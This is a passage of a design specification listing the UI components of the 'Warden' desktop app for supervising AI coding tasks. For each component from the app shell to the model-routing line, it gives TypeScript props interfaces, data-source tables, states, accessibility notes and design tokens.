

# B04 Component inventory

This file specifies every UI component of the Warden PoC desktop app named in `00-DESIGN-CORE.md` §11. For each one it gives the purpose, the anatomy, a TypeScript props interface, the visual states (generic and domain), the data sources (each field traced to a runtime API method in core §6 or to an event type and payload path in core §5), the update behaviour (which events cause a re-render), accessibility notes and the design tokens used. §5 specifies the new per-hunk provenance metadata on `code-diff` artifacts, §6 the cost and usage aggregation rules, §7 the event-to-component update matrix.

Related deliverables: B01 (screen and state map), B03 (layout and sizes per screen), B05 (keyboard, focus, timing, optimistic states; authoritative for behaviour), B06 (token values, icon map, row metrics; authoritative for visuals), B07 (final strings; this file references message keys only), B08 (store, selectors, transport; authoritative for code structure). Conflict resolutions from `00-SCOPE-AND-CONFLICTS.md` are cited as CF-xx.

## 1. Conventions

### 1.1 Data-source notation

| Notation | Meaning | Example |
|---|---|---|
| `rpc:<method> → result.<path>` | Field of a JSON-RPC result (core §6) | `rpc:provider.models → models[].reason` |
| `evt:<type> → payload.<path>` | Field of a persisted event payload (core §5) | `evt:routing.decision → payload.explanation` |
| `evt:<type> → env.<field>` | Envelope field of that event | `evt:tool.exec.start → env.task_id` |
| `delta:<kind>` | Non-persisted `stream.delta` notification with that `kind` | `delta:model_text → data` |
| `derived` | Computed by a selector from the above; the formula is given | "count of distinct `approval_id`" |
| `local` | UI-only state never sent to or received from the runtime | selected scope before submit |
| `transport` | State of the JSON-RPC connection (B08) | `reconnecting` |

"Latest" always means highest `seq` (envelope), never wall-clock `ts`. Joins use ids, never array positions: `call_id` joins `policy.decision`, `approval.requested`, `tool.exec.start`, `tool.exec.end`; `task_id` joins everything inside a task; `routing_id` joins `routing.decision`, `routing.fallback` and `model.call.start`; `decision_id` joins `policy.decision` and `approval.requested`.

### 1.2 Component contract

1. Components are presentational. They receive view models built by selectors over the normalized event store (B08) and emit callbacks. No component calls JSON-RPC directly; every callback states the method B08 wires it to.
2. Every value that shows a decision, a routing choice, a cost or a state comes from a persisted event or an RPC result. The only local, unconfirmed state a component may render is the transitional phase "Sending…" (`phase: 'sending' | 'confirming'`, B05 §5). No component renders success before the confirming event.
3. Only redacted runtime data is displayed (core §13.16); the UI never has unredacted values. Where B07 defines a template (approval what/why, routing lines), it is filled from structured payload fields (`action.args_redacted`, `pattern`, `obligations`, `candidates[]`); runtime-authored strings (`display.*`, `payload.reason`, `payload.explanation`, `models[].reason`, `checks[].title`) are shown verbatim where no template exists and as the fallback when a template's fields are missing (B07 §3).
4. Model-authored and repository-derived text (plan summary and rationale, test failure messages, analysis, tool output, diff content) is rendered as plain text: no HTML, no Markdown execution, no auto-linking, no image loading (BI-4, T-03). It carries the "untrusted" or "model-written" marker defined per component.
5. Strings are B07 message keys (`approval.what.install`). Keys named here are the ones the component needs; B07 owns final wording and may add keys.
6. Visual values are token names from core §11 and B06 (B06 NEW tokens are marked "B06"). Row heights are the `min-height` values of B06 §6.2; this file states only where a component must reserve space for layout stability (B05 §4).
7. Every action button shows its CLI equivalent in its tooltip or the ExplainDrawer (BI-6, WRD-11 §1 principle 5). CLI strings come from core §6 and are listed per component.

### 1.3 Selector naming

Selector names (`selectTaskView`, `selectApprovalCard`) are proposals so that B04, B05 and B08 talk about the same derivations. B08 is authoritative for their location and signatures.

## 2. Shared types

These types mirror core §3 enumerations and the A05 schemas. They are the view-model vocabulary used by every props interface below.

```ts
// ---- Enumerations (core §3) ----
export type Classification = 'public' | 'internal' | 'confidential';          // 'restricted' rejected (CF-02)
export type Tier = 'T0' | 'T1' | 'T2' | 'T3' | 'T4';
export type SandboxLevel = 'L1' | 'L2';
export type SandboxBackend = 'seatbelt' | 'bwrap' | 'docker';
export type RiskClass = 'R0' | 'R1' | 'R2' | 'R3' | 'R4' | 'R5' | 'R6';
export type Effect = 'allow' | 'deny' | 'approval_required';
export type ApprovalScope = 'once' | 'task' | 'session' | 'workspace';          // keyboard 1..4 in this order
export type ApprovalDecision = 'approve' | 'reject' | 'expire' | 'cancel';
export type ApprovalKind = 'action' | 'gate' | 'question';                      // core §15 ID-05
export type TaskState =
  | 'created' | 'queued' | 'running' | 'waiting_for_approval' | 'waiting_for_input'
  | 'succeeded' | 'failed' | 'cancelled' | 'timed_out' | 'skipped' | 'blocked';
export type TaskReason =
  | 'deps_met' | 'scheduled' | 'approval_pending' | 'approved' | 'input_needed' | 'input_provided'
  | 'output_valid' | 'retry' | 'budget' | 'policy_denied' | 'schema' | 'verification' | 'interrupted'
  | 'provider' | 'tool' | 'resource' | 'timeout' | 'cancelled' | 'rejected' | 'approval_expired'
  | 'no_admissible_model' | 'upstream_failed';
export type RunStatus = 'running' | 'waiting' | 'succeeded' | 'failed' | 'cancelled';
export type TaskKey = 'plan' | 'gate-plan' | 'implement' | 'verify' | 'repair-1' | 'verify-2' | 'gate-final' | 'summarize';
export type GateKey = 'gate-plan' | 'gate-final';
export type TaskClass = 'plan' | 'implement' | 'verify' | 'summarize';
export type CoderMode = 'plan' | 'implement' | 'repair' | 'summarize';           // summarize: CF-43
export type Strategy = 'prefer-internal' | 'quality-first' | 'cost-first' | 'latency-first';
export type Protocol = 'anthropic-messages' | 'openai-compatible';
export type AuthMode = 'none' | 'api_key' | 'gateway';
export type GatewayKind = 'bearer' | 'mtls';
export type HarnessKind = 'copilot-sdk' | 'codex-app-server' | 'claude-code-cli';
export type HarnessRunMode = 'split' | 'colocated';                              // CF-22
export type BillingMode = 'api_key' | 'none' | 'gateway' | 'harness_subscription';
export type VendorTerms = 'permitted' | 'tolerated' | 'personal_use_only' | 'prohibited';
export type ModelErrorCode =
  | 'rate_limited' | 'auth_failed' | 'context_too_long' | 'provider_unavailable' | 'content_filtered'
  | 'invalid_request' | 'tool_format_unsupported' | 'model_not_found' | 'timeout' | 'cancelled';
export type ArtifactType = 'plan' | 'code-diff' | 'test-report' | 'repo-map' | 'final-result' | 'checkpoint';
export type ChainStatus = 'verified' | 'unverified' | 'verifying' | 'failed';
export type CandidateStatus = 'chosen' | 'admitted' | 'rejected' | 'unhealthy';
export type RoutingRejection =
  | 'tier_not_admitted' | 'capability_missing' | 'context_too_small' | 'denied_by_policy' | 'over_budget'
  | 'circuit_open' | 'harness_not_pinned' | 'harness_disabled' | 'harness_locked_shared_mode'
  | 'provider_unconfigured' | 'credential_missing';
export type DeliveryAction = 'apply_branch' | 'commit' | 'push' | 'export_patch';
export type ToolId =
  | 'fs.read' | 'fs.list' | 'fs.search' | 'fs.write' | 'fs.patch' | 'proc.exec'
  | 'git.status' | 'git.diff' | 'git.commit' | 'git.push' | 'git.apply_branch' | 'git.export_patch'   // last two: host delivery tools (ID-02)
  | 'approval.request';
export type Executor = 'sandbox' | 'host' | 'harness';
export type RpcErrorName =
  | 'unauthorized' | 'not_found' | 'invalid_state' | 'policy_denied' | 'confirmation_required'
  | 'sandbox_unavailable' | 'no_admissible_model' | 'budget_exhausted' | 'store_unavailable'
  | 'unsupported_in_poc' | 'protocol_mismatch' | 'vendor_terms' | 'jsonrpc_internal';

// ---- Primitives ----
export type MessageKey = string;          // B07 key, e.g. 'approval.what.install'
export type Iso8601 = string;             // RFC 3339 ms UTC (envelope ts)
export type Seq = number;                 // store-global event sequence
export interface Redactions { count: number; types: string[] }                  // envelope.redactions
export interface Quota { kind: string; units: number }                          // usage.quota
export interface Money {
  amount: number | null;                   // null = unknown price
  currency: string;                        // 'USD' in the PoC
  basis?: string;                          // usage.estimated_cost.basis
  note?: 'infra_untracked' | 'price_unknown' | 'quota_billed' | null;           // §6.3
}
export interface ProvenanceRef {
  sessionId: string;
  runId: string | null;
  taskId: string | null;
  taskKey?: TaskKey;
  executionId?: string | null;
  step?: number | null;
  callId?: string | null;
  modelCallId?: string | null;
  routingId?: string | null;
  seq?: Seq;                               // event that anchors the reference
}
export interface RpcErrorView {
  code: number;                            // -32001..-32012, or JSON-RPC standard codes
  name: RpcErrorName;
  messageKey: MessageKey;                  // B05 §11 mapping
  detail?: string;                         // error.message from the runtime, shown in details only
}
/** Transitional state of a user action (B05 §5). */
export type ActionPhase =
  | { phase: 'idle' }
  | { phase: 'sending'; since: number }                     // request written, no RPC result yet
  | { phase: 'confirming'; since: number }                  // RPC result ok, confirming event not yet received
  | { phase: 'slow'; since: number }                        // confirming longer than B05 T-CONFIRM-SLOW
  | { phase: 'error'; error: RpcErrorView };
export interface ActionAvailability {
  available: boolean;
  reasonKey?: MessageKey;                  // why unavailable; rendered as text next to or under the control
  cli?: string;                            // CLI equivalent (BI-6)
}
export type ConnectionState =
  | 'connecting' | 'connected' | 'replaying' | 'reconnecting' | 'disconnected' | 'unauthorized' | 'protocol_mismatch';
```

## 3. Shared state vocabulary

Every component uses these state names. Tokens are from core §11 and B06; B06 is authoritative for values and exact treatments.

| State | Meaning | Treatment (tokens) | Accessibility |
|---|---|---|---|
| default | Resting | `color-surface-1`, `color-text`, `color-border` | |
| hover | Pointer over an interactive element | `color-surface-2` background, `motion-fast` | Never the only way to reveal information; tooltips also on focus |
| focus-visible | Keyboard focus | 2 px `color-focus` outline, 2 px offset (B06 §7) | Never suppressed; not obscured by sticky bars (SC 2.4.11) |
| active / pressed | Pointer down or key down on a control | `color-surface-3` | |
| selected | Current selection (timeline entry, file, option) | `color-accent-subtle` (B06) background + `color-accent` indicator bar | `aria-selected` or `aria-current` |
| disabled | Not available now | Text `color-text-muted`, reason line visible; never opacity below 1 | `aria-disabled="true"` (stays focusable so the reason is readable), reason in `aria-describedby` |
| loading | Data requested, not yet present | Skeleton blocks `color-surface-3` at the reserved height | `aria-busy="true"` on the container |
| streaming | Live content arriving (`stream.delta`) | Fixed-height region, static end marker (B06 §9.2) | Region is not a live region (B05 §12.4); user can hide it (SC 2.2.2) |
| error | Operation or data failed | `color-state-failed` icon + text; inline message | Message referenced by `aria-describedby`; polite announcement |
| running | Task or process executing | `color-state-running`, `loader-circle` | Text label "Running · step n/max" |
| waiting | `waiting_for_approval` / `waiting_for_input` | `color-state-waiting`, pulse per B06 §9.3 | Text label, badge count |
| succeeded | Terminal success | `color-state-succeeded`, `circle-check` | Text label |
| failed | Terminal failure (also `timed_out`) | `color-state-failed`, `circle-x` / `timer-off`, reason line | Text label with reason |
| cancelled | Cancelled, skipped, blocked; greyed entries (ST-5) | `color-state-cancelled`, text `color-text-muted` | Text label |
| partial | Artifact with `partial: true` (cancel, budget) | Chip "Partial" with `color-state-cancelled` outline | Chip text |
| redacted | Envelope `redactions.count > 0` or `[REDACTED:<type>]` spans | `eye-off` icon + "n redacted" chip; spans in `mono-sm` on `color-surface-3` | Span accessible name "redacted {type}" |
| untrusted | Observation entering model context (BI-4) | `color-untrusted` + `color-untrusted-bg` (B06), dashed left border, `triangle-alert` | Caption "Untrusted output" read before the block |
| model-written | Text authored by a model (plan, analysis) | Caption with `cpu` icon and model id, `color-text-muted` | Caption read before the block |
| stale | Transport not `connected`; data may be behind | Header connection indicator; actions show reason `common.disconnected` | Actions `aria-disabled` with reason |
| superseded | Artifact replaced by a newer version (CF-26) | Chip "Superseded by v2" | Chip text; link to latest |

## 4. Components

Each entry uses the same sub-headings. "Tokens" lists only tokens specific to that component beyond §3.

### C-01 AppShell

**Purpose.** The window frame: session header (identity, classification, sandbox, chain, pending approvals, cancel, connection), banner stack, navigation between the seven screens, and the content region. It hosts the only globally reachable cancel control (WRD-11 principle 4).

**Anatomy.**

```
+-----------------------------------------------------------------------------------------------------+
| [folder-git-2] ts-express-api  [Internal] [L1 (Seatbelt)] [Chain verified]  [git-branch] warden/01j… |
|                                              [hand 1 pending | G1 open]  [circle-stop Cancel  Mod+.]  (o) Live |
+-----------------------------------------------------------------------------------------------------+
| Banner stack (0..3 visible, most severe first; reserved slot, B06 §9.2)                              |
+------+----------------------------------------------------------------------------------------------+
| nav  | screen content (SCR-1..SCR-7)                                                                 |
| rail |                                                                                               |
+------+----------------------------------------------------------------------------------------------+
```

**Props.**

```ts
export type ScreenId = 'SCR-1' | 'SCR-2' | 'SCR-3' | 'SCR-4' | 'SCR-5' | 'SCR-6' | 'SCR-7';
export interface SessionHeaderView {
  sessionId: string;
  workspaceId: string;
  workspaceName: string;                    // basename of workspace root
  workspaceRoot: string;                    // full path, tooltip only
  classification: Classification;
  sandbox: { level: SandboxLevel; backend: SandboxBackend | null; ok: boolean };
  chain: ChainStatusView;
  branch: string;                           // warden/<ulid>
  runStatus: RunStatus | null;              // null = no run yet in this session
  runId: string | null;
  runningTaskId: string | null;
  pendingApprovals: number;
  openGate: { gateId: string; gateKey: GateKey } | null;
  cancel: CancelControlView;
}
export interface ChainStatusView {
  status: ChainStatus;
  verifiedThroughSeq: Seq | null;           // last audit.verify covered events up to this seq
  eventsSinceVerify: number;                // head_seq - verifiedThroughSeq
  verifiedAt: Iso8601 | null;
  violations: number;
}
export interface CancelControlView {
  state: 'hidden' | 'available' | 'stopping' | 'stopping_slow' | 'stop_unconfirmed';
  target: { kind: 'task'; taskId: string; taskKey: TaskKey } | { kind: 'run'; runId: string } | null;
  since: number | null;                     // ms timestamp of request (B05 §8)
}
export interface AppShellProps {
  route: ScreenId;
  connection: ConnectionState;
  daemon: { version: string; mode: 'personal' | 'shared'; protocol: string } | null;
  session: SessionHeaderView | null;        // null on SCR-1, SCR-6, SCR-7 without a session
  banners: BannerProps[];                   // C-24, ordered by severity then seq
  shortcutsEnabled: boolean;                // single-key shortcut preference (B05 §2.11)
  onNavigate(route: ScreenId): void;
  onCancel(): void;                         // -> session.cancel (B05 §8)
  onJumpToPending(): void;                  // same as G then A
  children: React.ReactNode;
}
```

**States.** `connecting` (header skeleton, content blocked by a neutral splash with the connection message), `replaying` ("Catching up" indicator next to Live, timeline shows existing entries), `connected`, `reconnecting` (indicator plus Banner BN-04 after B05 T-RECONNECT-BANNER), `disconnected`, `unauthorized` and `protocol_mismatch` (full-content blocking states BN-06). No session: header shows only app name, daemon version and mode. Shared mode (`daemon.mode = 'shared'`): a permanent muted chip "Shared mode" in the header (CF-21).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `workspaceName`, `workspaceRoot` | `evt:session.open → payload.workspace_root` (also `rpc:session.open → result.workspace_id`) | basename for display |
| `classification` | `evt:workspace.classification → payload.to` (latest for the workspace) else `evt:session.open → payload.classification` | latest wins |
| `sandbox.level` | `evt:session.open → payload.sandbox_level` | |
| `sandbox.backend` | `rpc:session.open → result.sandbox_backend` (A05), then latest `evt:sandbox.create → payload.backend` in the session | |
| `sandbox.ok` | `rpc:system.doctor → checks[].status` of blocking sandbox checks | `ok` if none is `fail` |
| `chain` | `rpc:audit.verify → result.{ok, chain_ok, strict_ok, events, violations[]}`; `eventsSinceVerify` from `rpc:event.subscribe → result.head_seq` and live `env.seq` | see C-18 chain variant |
| `branch` | `evt:session.open → payload.branch` | |
| `runStatus`, `runId` | latest `evt:workflow.start → env.workflow_run_id`; status: `evt:workflow.end → payload.status`, else `waiting` if a gate or approval is open, else `running` | derived |
| `runningTaskId` | `evt:task.state` with `payload.to = 'running'` and no later terminal or waiting transition for that task | derived |
| `pendingApprovals` | C-12 formula | |
| `openGate` | `evt:workflow.gate.presented` without matching `evt:workflow.gate.resolved` (by `gate_id`) | |
| `cancel` | local request time + `evt:task.state → payload.to = 'cancelled'` | B05 §8 |
| `daemon` | `rpc:system.hello → result.{daemon_version, mode, protocol}` | |
| `connection` | transport | |

**Update behaviour.** Re-renders the header on `session.open`, `session.resume`, `workspace.classification`, `sandbox.create`, `workflow.start`, `workflow.end`, `workflow.gate.presented/resolved`, `approval.requested/resolved`, `task.state`, `chain.checkpoint` (increments `eventsSinceVerify` only), and on every audit.verify result. Header widths are reserved: the badge slot and cancel slot keep their width when empty (B05 §4.1).

**Accessibility.** `header` landmark containing a `toolbar` (`aria-label` key `shell.header.aria`); nav rail is `nav`; content is `main`. Connection indicator has a text label (not a dot alone). Cancel button: accessible name `cancel.button` plus shortcut in `aria-keyshortcuts="Meta+Period"` (macOS) or `"Control+Period"` (Linux).

**Tokens.** `color-bg`, `color-surface-1`, `color-border`, `text-md`, `text-sm`, `mono-sm`, `space-2`, `space-3`, `elevation-1`.

**Message keys.** `shell.header.aria`, `shell.connection.{connecting,live,replaying,reconnecting,disconnected}`, `shell.mode.shared`, `cancel.button`, `cancel.stopping`, `cancel.stoppingSlow`, `cancel.unconfirmed`.

### C-02 WorkspaceList

**Purpose.** SCR-1 list of recent workspaces with open and "open directory" actions (WRD-16 §13 screen 1).

**Anatomy.** Toolbar (`Open directory…`, `Settings`) above a table of WorkspaceRow items; empty state when `workspaces` is empty; ST-1 and ST-2 banners above the table when applicable.

**Props.**

```ts
export interface WorkspaceListProps {
  workspaces: WorkspaceRowProps[] | null;     // null = loading
  error: RpcErrorView | null;
  providersConfigured: number;                // ST-1 when 0
  sandboxBlocked: boolean;                    // ST-2
  onOpenDirectory(): void;                    // native picker -> session.open {workspace: path}
  onOpenSettings(): void;
}
```

**States.** loading (5 skeleton rows), empty (`workspace.empty`), error (inline with Retry), ST-1 (SetupWizard entry banner BN-09, rows still listed), ST-2 (blocking banner BN-01; Open actions `aria-disabled` with reason `doctor.blocking`).

**Data sources.** `rpc:workspace.list → workspaces[]`; `rpc:provider.list → providers[], harnesses[]` (count with `status` not `disabled`); `rpc:system.doctor → checks[].blocking && status = 'fail'`.

**Update behaviour.** Refetch on mount, on `workspace.classification` (system chain; requires a `"*"` subscription per B08) and after `session.close`.

**Accessibility.** `table` with column headers; rows are focusable (`tabindex` roving); Enter opens.

**Tokens.** `text-lg`, `text-md`, `space-4`, `radius-md`.

### C-03 WorkspaceRow

**Purpose.** One workspace: name and path, classification badge with change dropdown, sandbox level, provider count, one-sentence capability summary, sessions count and last opened.

**Props.**

```ts
export interface WorkspaceRowProps {
  workspaceId: string;
  root: string;
  name: string;
  classification: Classification;
  sandboxLevel: SandboxLevel;
  providersConfigured: number;
  capabilitySummary: string | null;           // one sentence; null until a session was opened once
  sessionsCount: number;
  lastOpenedAt: Iso8601 | null;
  classificationChange: ActionPhase;
  onOpen(): void;                             // -> session.open {workspace: root}
  onChangeClassification(to: Classification): void;  // -> confirm dialog if loosening -> workspace.setClassification
}
```

**States.** default, hover, focus, classification-change pending (`Sending…` on the dropdown), error (inline under the row), loosening confirmation dialog open (B05 §7.4).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| `workspaceId`, `root`, `classification`, `lastOpenedAt`, `sessionsCount` | `rpc:workspace.list → workspaces[].{workspace_id, root, classification, last_opened_at, sessions_count}` | `name` = basename(root) |
| `sandboxLevel` | `rpc:workspace.list → workspaces[].sandbox_level` (A05) | |
| `providersConfigured` | `rpc:provider.list` | count enabled with last test ok |
| `capabilitySummary` | `rpc:workspace.list → workspaces[].capabilities_summary.text` (A05 NEW field) | |
| classification change result | `rpc:workspace.setClassification → result.{classification, affected_sessions[]}`, confirmed by `evt:workspace.classification → payload.to` | |

**Accessibility.** The classification control is a `select`-pattern button (`aria-haspopup="listbox"`); options list the three values only (CF-02). CLI tooltip: `warden open <dir> --classification <X>`.

**Tokens.** `color-class-*` via C-18, `mono-sm` for path.

### C-04 RequestComposer

**Purpose.** Starts a job: request text, optional model pin (admissible models only), read-only toggle (CF-43), submit with `Mod+Enter`. A request is a job with a plan and gates, not a chat message: the composer is a single form above the timeline, not a message bubble input.

**Anatomy.**

```
+------------------------------------------------------------------------------------------+
| Describe the change                                                                      |
| [ multi-line text area, 3 to 8 lines, grows; counter appears near limit ]                |
| Model: [Auto (router decides) v]   [ ] Read-only question (no writes, no gates)          |
| Secrets in the request are redacted before storage.            [Start  Mod+Enter]        |
+------------------------------------------------------------------------------------------+
```

**Props.**

```ts
export type ComposerBlockReason =
  | 'run_active' | 'no_provider' | 'sandbox_blocked' | 'budget_exhausted' | 'disconnected' | 'no_session';
export interface RequestComposerProps {
  sessionId: string | null;
  value: string;                              // local draft (kept per session, B05 §3.4)
  maxLength: number;                          // 32,768 (A05 session.request params.text maxLength)
  readOnly: boolean;                          // local toggle -> kind 'readonly'
  pin: ModelPickerProps;                      // C-19, variant 'composer'
  currentPin: string | null;                  // pin persisted for the session
  blocked: { reason: ComposerBlockReason; messageKey: MessageKey } | null;
  submit: ActionPhase;
  lastRedactionCount: number;                 // from the last request of this session
  onChange(value: string): void;
  onToggleReadOnly(value: boolean): void;
  onSubmit(): void;                           // -> session.request {session_id, text, pin_model, kind, client_request_id}
}
```

**States.** empty (Start `aria-disabled`, reason `composer.empty`), typing, near limit (counter visible from 90 % of `maxLength`), blocked (reason line replaces the helper; text area stays editable so the draft is kept), submitting (`Sending…` on Start, text area read-only), confirmed (draft cleared only when the confirming `session.request` event arrives), error (inline under the button: `no_admissible_model` shows the ST-3 actions, `budget_exhausted` shows Raise limit).

**Data sources.**

| Field | Source | Transformation |
|---|---|---|
| submit result | `rpc:session.request → result.run_id` | confirming event: `evt:session.request` with `payload.run_id` equal |
| `currentPin` | latest `evt:session.request → payload.pin_model` in the session | `null` = Auto |
| `blocked.run_active` | `runStatus ∈ {running, waiting}` (C-01) | sequential sessions: one active run |
| `blocked.budget_exhausted` | `evt:task.state → payload.reason = 'budget'` for the session and no later `evt:budget.changed` | |
| `blocked.sandbox_blocked` | `rpc:system.doctor` blocking fail | |
| `lastRedactionCount` | `evt:redaction → payload.count` where `payload.source = 'request_text'` and `env.session_id` matches, after the last `session.request` | shown on the Request entry, not here |

**Update behaviour.** Re-renders on `session.request`, `workflow.start`, `workflow.end`, `budget.changed`, `task.state` (budget), and connection changes.

**Accessibility.** `form` with `aria-label` `composer.aria`; text area label visible; `aria-keyshortcuts` on Start (`Meta+Enter` / `Control+Enter`); read-only toggle is a checkbox with a description; the block reason is linked via `aria-describedby`.

**Tokens.** `color-surface-2` (input), `color-border-strong`, `text-md`, `mono-sm` (pin id), `radius-sm`, `space-3`.

**Message keys.** `composer.label`, `composer.placeholder`, `composer.submit`, `composer.empty`, `composer.readonly.label`, `composer.readonly.help`, `composer.redactionHelp`, `composer.block.{run_active,no_provider,sandbox_blocked,budget_exhausted,disconnected,no_session}`, `composer.counter`.

### C-05 Timeline

**Purpose.** The single, append-only record of one session: runs, requests, routing, tasks, approvals, gates, verification, repair and results (WRD-11 principle 2). Selecting an entry drives the ContextPanel.

**Anatomy.** A scroll container with a virtualized list of TimelineEntry items in `anchorSeq` order, a follow-mode indicator, and the "Jump to latest" pill anchored at the bottom edge when not following.

**Props.**

```ts
export interface TimelineProps {
  sessionId: string;
  entries: TimelineEntryProps[];               // ordered by anchorSeq ascending; never reordered
  selectedId: string | null;
  focusedId: string | null;                    // roving tabindex target
  follow: boolean;                             // B05 §4.3
  unseenCount: number;                         // entries appended while not following
  replaying: boolean;                          // transport 'replaying'
  onSelect(id: string): void;
  onFocusChange(id: string): void;
  onJumpToLatest(): void;
  onScrollAwayFromBottom(): void;              // follow = false
}
```

**States.** loading (skeleton entries), empty session (`timeline.empty`: points at the composer), following, not following (pill "Jump to latest · n new"), replaying (entries render as they replay; no announcements, B05 §12.4), greyed run (ST-5, entries of a cancelled run in `color-text-muted`).

**Data sources.** Built by `selectTimeline(sessionId)` from all session-chain events (§7). Entry creation rules are in C-06.

**Update behaviour.** Appends on the creating events listed in C-06; in-place updates of existing entries on their joined events. Never removes or reorders entries (a superseded diff or resolved approval is updated in place).

**Accessibility.** `role="feed"` with `aria-busy="true"` while a batch is being applied, `aria-label` `timeline.aria`; each entry is an `article` with `aria-posinset`/`aria-setsize` (setsize `-1` while the run is live); J/K and Page Up/Down per the feed pattern (B05 §2.7).

**Tokens.** `color-surface-1`, `space-2`, `space-3`, `elevation-2` (pill), `radius-pill` (B06).

### C-06 TimelineEntry

**Purpose.** One row in the timeline with a status icon, title, elapsed time and cost badge (WRD-11 §2.2), hosting a specialised body (TaskCard, PlanCard, ApprovalCard summary, result).

**Entry kinds and creating events.**

| Kind | Created by (first event) | Body | Updated by |
|---|---|---|---|
| `run` | `evt:workflow.start` | Run header: template, `resumed_from` note (`workflow.start.payload.resumed_from`) | `workflow.end` |
| `request` | `evt:session.request` | Request text (`payload.text`, redacted), kind chip (change / read-only), pin chip, redaction chip | `redaction` (source `request_text`) |
| `worktree` | `evt:worktree.create` | "Session branch {branch} from {base_commit}" | `worktree.checkpoint` (checkpoint list in details) |
| `task` | first `evt:task.state` for a non-gate `task_key` | TaskCard (C-08) | all task-scoped events (§7) |
| `gate` | `evt:workflow.gate.presented` | G1: PlanCard + GateBar; G2: result summary (DiffViewer summary, TestReport summary, CostPanel compact, chain badge) + GateBar + DeliveryBar | `workflow.gate.resolved`, `artifact.edited`, `approval.*` (push) |
| `result` | `evt:workflow.end` | Final status, reason, `final-result` artifact summary; at G2 accept the run ends here (ID-01); CF-24 read-only result when `reason = 'verification'`; `cancelled(rejected)` after G1 reject or G2 discard (not greyed, not resumable) | `chain.checkpoint`, audit verify result |
| `delivery` | first `evt:workflow.delivered` of the run (ID-02) | One line per delivery ("Committed 3f9c2a1 to warden/01jaxr…", "Push rejected, nothing was pushed") with the host ToolCallRows (`git.commit`, `git.apply_branch`, `git.export_patch`, `git.push`) and their decisions | later `workflow.delivered`, push `approval.*`, `tool.exec.*` with `executor: host` |
| `notice` | `evt:workspace.classification`, `evt:budget.changed`, `evt:session.resume`, `evt:approval.revoked`, `evt:task.state` with `reason = 'interrupted'`, `evt:routing.fallback` with `to = null` | One line with icon | none |

Denied tool calls are not separate entries: they are pinned rows inside their TaskCard (C-08) so the task context is visible (S1 to S3).

**Props.**

```ts
export type TimelineEntryKind = 'run' | 'request' | 'worktree' | 'task' | 'gate' | 'result' | 'delivery' | 'notice';
export type EntryStatus =
  | { kind: 'task'; value: TaskState; reason: TaskReason | null }
  | { kind: 'run'; value: RunStatus; reason: TaskReason | null }
  | { kind: 'gate'; value: 'open' | 'approved' | 'rejected' | 'expired' | 'cancelled' }
  | { kind: 'info' };
export interface TimelineEntryProps {
  id: string;                                  // stable, e.g. 'task:tsk_…', 'gate:tsk_…', 'request:evt_…'
  kind: TimelineEntryKind;
  anchorSeq: Seq;                              // seq of the creating event (ordering key)
  runId: string | null;
  status: EntryStatus;
  titleKey: MessageKey;
  titleArgs?: Record<string, string | number>;
  startedAt: Iso8601;
  endedAt: Iso8601 | null;
  elapsed: { activeMs: number; wallMs: number } | null;   // §6.5
  cost: Money | null;                          // compact cost badge (§6)
  quota: Quota[];                              // harness quota badge
  attention: 'approval' | 'gate' | 'input' | null;
  greyed: boolean;                             // entries of a cancelled run (ST-5)
  redactions: Redactions | null;
  selected: boolean;
  focused: boolean;
  onSelect(): void;                            // click or focus+Enter -> ContextPanel
  children?: React.ReactNode;                  // specialised body
}
```

**States.** default, hover, focus-visible, selected, attention (left stripe in `color-effect-approval` plus `hand` icon), greyed, loading body (reserved height), new (fade-in per B06 §9.2).

**Data sources.** `startedAt` = `env.ts` of the creating event; `endedAt` = `env.ts` of the terminal event (`task.state` to a terminal state, `workflow.gate.resolved`, `workflow.end`); `elapsed` and `cost` per §6; `attention` from C-11/C-13 open items owned by the entry.

**Accessibility.** `article` with `aria-labelledby` (title) and `aria-describedby` (status text + elapsed + cost). The header row is the roving-focus target; its accessible description includes the state label (B06 §3.3) so state is never conveyed by icon alone.

**Tokens.** `color-accent` (selected bar), `color-accent-subtle` (B06), `color-effect-approval`, `text-md`, `text-sm`, `mono-sm`.

### C-07 RoutingLine

**Purpose.** The one-line model decision for a task execution ("Chosen: … because …") with a details disclosure listing every candidate and why it was chosen, admitted, rejected or unhealthy (WRD-06 §11, BI-7). Also shows pins and fallbacks.

**Anatomy.**

```
[route] Chosen: local/qwen-coder-32b [T0] because prefer-internal; internal data; 3 candidates   Details (E)
[corner-down-right] Fell back from anthropic/claude-sonnet [T3] to … after provider_unavailable (1/3); tier not widened
```

Pinned variant: `[route] Pinned: anthropic/claude-sonnet [T3]. Pin overrides ranking, never admission.`
No-candidate variant (ST-3): `[ban] No admissible model for confidential data. 2 models not admitted (tier), 1 unconfigured.  Configure provider · Change classification`

**Props.**

```ts
export interface RoutingCandidateView {
  modelId: string;
  providerId: string;
  tier: Tier;
  status: CandidateStatus;
  reasonCode: RoutingRejection | null;
  reason: string | null;                       // runtime-authored
  qualityPrior: number | null;
  estCostUsd: number | null;
}
export interface RoutingFallbackView {
  seq: Seq;
  from: { modelId: string; tier: Tier };
  to: { modelId: string; tier: Tier } | null;  // null = no candidate left
  cause: ModelErrorCode;
  count: number;                               // fallback_count
}
export interface RoutingLineProps {
  routingId: string;
  taskClass: TaskClass;
  classification: Classification;
  strategy: Strategy;
  pinned: string | null;
  chosen: { modelId: string; providerId: string; tier: Tier } | null;
  explanation: string;                         // runtime-authored "because" clause
  counts: { total: number; admitted: number; rejected: number; unhealthy: number };
  rejectedByCode: Partial<Record<RoutingRejection, number>>;
  candidates: RoutingCandidateView[];
  fallbacks: RoutingFallbackView[];
  budgetRemainingUsd: number | null;
